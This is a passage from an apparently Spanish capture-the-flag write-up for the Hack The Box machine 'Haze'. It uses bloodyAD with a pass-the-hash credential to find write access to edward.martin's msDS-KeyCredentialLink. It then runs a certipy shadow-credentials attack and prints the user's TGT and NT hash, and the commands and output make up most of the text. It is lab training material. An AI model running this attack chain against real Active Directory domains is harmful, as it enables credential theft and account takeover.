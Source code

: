 Veremos que ahora tendremos un nuevo permiso de escritura sobre un atributo muy "jiji" de `edward.martin`:

```bash
❯ bloodyAD -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' -d haze.htb --host dc01.haze.htb get writable --detail      

distinguishedName: CN=TPM Devices,DC=haze,DC=htb
msTPM-InformationObject: CREATE_CHILD

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=haze,DC=htb
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=Edward Martin,CN=Users,DC=haze,DC=htb
msDS-KeyCredentialLink: WRITE
```

Podemos aprovecharnos del mismo fácilmente con `certipy` para obtener su hash NTLM:

```bash
❯ certipy shadow add -u 'Haze-IT-Backup$@haze.htb' -hashes ':4de830d1d58c14e241aff55f82ecdba1' -target-ip 10.10.11.61 -account edward.martin
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: HAZE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '8bf3dcc2-b3af-8f52-9bbd-1ae2027b690c'
[*] Adding Key Credential with device ID '8bf3dcc2-b3af-8f52-9bbd-1ae2027b690c' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID '8bf3dcc2-b3af-8f52-9bbd-1ae2027b690c' to the Key Credentials for 'edward.martin'
[*] Saving certificate and private key to 'edward.martin.pfx'
[*] Saved certificate and private key to 'edward.martin.pfx'

❯ certipy auth -username edward.martin -domain haze.htb -ns 10.10.11.61 -dc-ip dc01.haze.htb -pfx edward.martin.pfx 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Got hash for 'edward.martin@haze.htb': aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af
```
